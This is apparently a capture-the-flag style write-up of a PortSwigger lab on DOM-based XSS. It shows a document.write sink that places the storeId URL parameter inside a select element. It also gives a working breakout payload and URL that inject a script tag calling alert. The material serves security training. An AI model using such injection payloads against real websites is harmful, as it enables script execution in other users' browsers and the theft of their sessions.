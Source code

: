 
# DOM XSS in document.write sink using source location.search inside a select element

This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function.

---------------------------------------------

References:

- https://portswigger.net/web-security/cross-site-scripting/dom-based

---------------------------------------------


The sink is:

```
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```




![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search%20inside%20a%20select%20element/1.png)


The parameter storeId is written between "<option selected>" and "</option>". That means if we add that value in the GET request it appears between the options, for example accessing "/product?productId=4&storeId=1":



![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search%20inside%20a%20select%20element/2.png)


To escape the option tags we can use the payload:

```
</option><script>alert(1)</script><option selected>
```

```
/product?productId=4&storeId=</option><script>alert(1)</script><option%20selected>
```



![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search%20inside%20a%20select%20element/3.png)
